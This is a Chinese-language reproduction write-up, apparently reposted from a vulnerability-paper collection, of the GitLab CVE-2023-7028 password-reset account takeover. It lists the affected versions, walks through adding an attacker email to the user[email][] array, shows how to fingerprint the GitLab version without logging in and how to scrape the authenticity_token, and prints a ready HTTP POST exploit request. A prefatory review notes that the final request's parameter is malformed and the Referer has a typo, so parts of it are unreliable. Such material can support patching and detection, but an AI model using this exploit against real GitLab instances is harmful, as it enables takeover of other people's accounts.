









## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：CE/EE branch ranges16.1–16.7 listed; labCE16.5.0; target registered email required; 2FA implication absent

代码与实验材料：Array email manipulation, session/CSRF workflow and version-hash method; final second parameter malformed user%5Bemail\]%5D%5B%5D; Referer new8 typo

来源证据范围：Official January11,2024 advisory and hash mapping repo

- **结论使用边界（1）**：Final URL-encoded second email field differs from correct earlier array key; copied request may fail。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：Password reset not necessarily full2FA bypass; hash versions need confidence/provenance and per-session token requirements。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# GitLab 任意用户密码重置漏洞复现（CVE-2023-7028）

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PzqIVv7xxPYOU6EKZazq5g)

GitLab 任意用户密码重置漏洞（CVE-2023-7028）

漏洞描述：

2024 年 1 月 11 日，Gitlab 官方披露 CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置 Gitlab 仅对可信地址开放。

漏洞利用条件：  
1、需获取系统已有用户注册邮箱地址  
2、满足影响版本

```
16.1 <=GitLab CE<16.1.6
16.2 <=GitLab CE<16.2.8
16.3 <=GitLab CE<16.3.6
16.4 <=GitLab CE<16.4.4
16.5 <=GitLab CE<16.5.6
16.6 <=GitLab CE<16.6.4
16.7 <=GitLab CE<16.7.2
16.1 <=GitLab EE<16.1.6
16.2 <=GitLab EE<16.2.8
16.3 <=GitLab EE<16.3.6
16.4 <=GitLab EE<16.4.4
16.5 <=GitLab EE<16.5.6
16.6 <=GitLab EE<16.6.4
16.7 <=GitLab EE<16.7.2


```

复现过程
----

> 这里被找回邮箱为个人注册邮箱地址，真实环境中需先获取目标邮箱地址

访问找回密码页面：`/users/password/new`



填写被找回邮箱地址，然后点击抓包



修改请求包为：`user[email][]=目标邮箱地址&user[email][]=攻击者邮箱地址`

成功复现

其实这里看到收件人邮箱已经变为两个了

半自动化
----

关于自动化主要有两个坑点，第一是如何获取版本号，第二是在找回密码的阶段会需要有一个`uauthenticity_token`

下面针对上面 2 点提出解决办法：

1、获取版本

公开的一些获取版本的办法大多是需要鉴权的，这里分享一种不需要登录的办法

访问`/assets/webpack/manifest.json`



获取 hash 值去 GitHub 对比版本号  
https://github.com/righel/gitlab-version-nse/blob/main/gitlab_hashes.json



可以发现版本是`gitlab-ce 16.5.0`

对比发现是正确的

2、authenticity_token 获取

访问找回密码界面`/users/password/new`

查看源代码搜索`authenticity_token`即可



构造 http 请求包

```
POST /users/password HTTP/1.1
Host: xx.com
Origin: http://xx.com
Content-Type: application/x-www-form-urlencoded
Referer: http://xx.com/users/password/new8
Cookie: preferred_language=zh_CN; _gitlab_session=e00664e028c369cdd6dff19f6d7b76bf

authenticity_token=vJBEyoTkR10UJNhrFcoJOYftTHaxPj3MHVSJusNt85SyyZ60RajsS2RsgkMetn7hd_k891ZUNCdePjdW5uUW6w&user%5Bemail%5D%5B%5D=目标邮箱地址&user%5Bemail]%5D%5B%5D=攻击者邮箱地址


```

补充
--



Reference:
----------

1.  https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
